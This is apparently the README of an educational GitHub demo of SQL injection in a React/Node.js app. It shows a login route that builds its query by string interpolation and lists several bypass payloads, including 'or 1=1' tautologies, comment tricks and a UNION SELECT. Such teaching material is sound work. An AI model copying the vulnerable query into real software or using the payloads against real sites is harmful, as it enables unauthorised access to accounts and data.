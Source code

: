 # 🚨 React-Node.js SQL Injection Demo 🚨

![image](https://github.com/nadunchanna98/SQL-Injection-React-Nodejs-Demo/assets/108536998/d0e8c3ce-5c98-4d6f-841f-41097cbe1e05)


This repository demonstrates a SQL injection vulnerability in a React-Node.js application.

## Setup

### Server-side Installation

1. cd into the `server` directory
2. Run `npm install`
3. Run `npm start`

### Client-side Installation

1. cd into the `client` directory
2. Run `npm install`
3. Run `npm start`

## Vulnerability

The vulnerability is in the `server/routes/users.js` file. The `login` route is vulnerable to SQL injection. The `login` route is defined as follows:

```
router.post('/login', function(req, res, next) {
  const username = req.body.username;
  const password = req.body.password;

  const query = `SELECT * FROM users WHERE username = '${username}' AND password = '${password}'`;
```

### 🚀 Usage

1. Visit the application in your browser and enter the following SQL query:
```' or 1=1;-- -```

2. Enter the following SQL query:
``` ' or True;-- - ```

3. When you know the username and don't know the password or it is hashed, enter the following SQL query
``` username'  and 1=1;-- - ```

4. When you know the password but don't know the username you can use the following queries
``` ' or false /* ``` and ```*/ or password = 'password```

5. UNION attack against the database.
``` linne' UNION SELECT 1, 'admin', 'admin', '1234567890', 'password', 'male';-- - ```

This will display all values as the condition is true, bypassing the password requirement.

### ⚠️ Disclaimer
This repository is for educational purposes only. Do not use this code in production.

